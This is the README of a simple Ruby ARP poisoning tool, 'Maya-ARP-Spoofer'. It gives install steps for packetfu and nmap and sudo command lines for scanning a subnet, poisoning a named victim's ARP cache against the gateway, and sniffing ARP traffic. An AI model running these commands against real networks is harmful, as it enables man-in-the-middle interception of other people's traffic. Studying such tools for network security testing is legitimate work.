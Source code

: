 # Maya-ARP-Spoofer
a yet very simple arp poisoner written in Ruby. i try to keep improving it though, so keep checking :)
just remember that there is no strong protection over inputs yet (its initial release), so try to do as the example to avoid any unexpected error

#INSTALLING PAKCETFU
first you need to install packetfu gem
if you have rubygems installed just do this : 
	$: gem install packetfu
second as the script uses nmap to scan the subnet so you need it to be install if you want to use the scanner:
	$: apt install nmap
now you're good to go ...

# USAGE
to scan the whole subnet:
	ruby Maya -s -g {your default gateway}
to start poisoning the ARP cashe of the victim:
	ruby Maya -i {your interface} -vI {victim_internal_ip} -g {default_gateway}
to start sniffing all the arp packets goes over the network:
	ruby Maya -i {your interface} -l
	
#EXAMPLE

sudo ruby Maya.rb -i 'wlo1' -vI 192.168.0.106 -g 192.168.0.1

sudo ruby Maya -s -g '192.168.0.1'

sudo ruby -i 'wlo1' -l

